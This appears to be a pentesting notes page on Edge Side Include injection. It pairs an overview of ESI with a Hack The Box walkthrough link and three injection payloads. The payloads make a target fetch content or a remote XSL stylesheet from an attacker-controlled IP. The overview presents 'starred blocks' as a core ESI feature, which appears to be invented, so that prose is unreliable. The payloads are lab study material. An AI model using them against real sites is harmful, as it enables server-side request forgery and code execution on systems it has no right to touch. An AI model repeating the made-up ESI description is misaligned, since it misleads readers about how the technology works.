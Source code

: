 ```yaml
---
tags:
  - Enumeration
  - TCP
  - HTTP
  - Concepts
  - Vulnerabilities
---
```

Edge Side Include (ESI) is a markup language and protocol used for dynamic web content assembly. It allows for the inclusion of fragments of content from different sources into a single web page, improving performance and scalability by offloading processing tasks to the edge servers.

One of the key features of ESI is the use of starred blocks, which are placeholders within the markup that indicate where dynamic content should be inserted. These starred blocks can be filled with content from various sources, such as backend servers, caching layers, or third-party APIs, allowing for a highly flexible and modular approach to content assembly.

By using ESI and starred blocks, developers can create dynamic web pages that are fast, scalable, and easily maintainable. This technology is particularly useful for websites with high traffic volumes or complex content requirements, as it allows for efficient caching strategies and reduces server load by distributing processing tasks across multiple edge servers.

Overall, ESI and starred blocks offer a powerful solution for managing dynamic web content and optimizing performance at the edge of the network. By leveraging these technologies, developers can create responsive and engaging web experiences that meet the demands of modern online users.

# Walkthrough

* [HTB: Quick | 0xdf hacks stuff](https://0xdf.gitlab.io/2020/08/29/htb-quick.html)

# Example

```
title=test&msg=test&id=TKT-7261<esi:include src="http://10.10.14.47/poc.html" />
```

```
<esi:include src="http://192.168.49.190/poc.html" />
```

```
<esi:include src="http://localhost/" stylesheet="http://10.10.14.47/esi.xsl">
</esi:include>
```
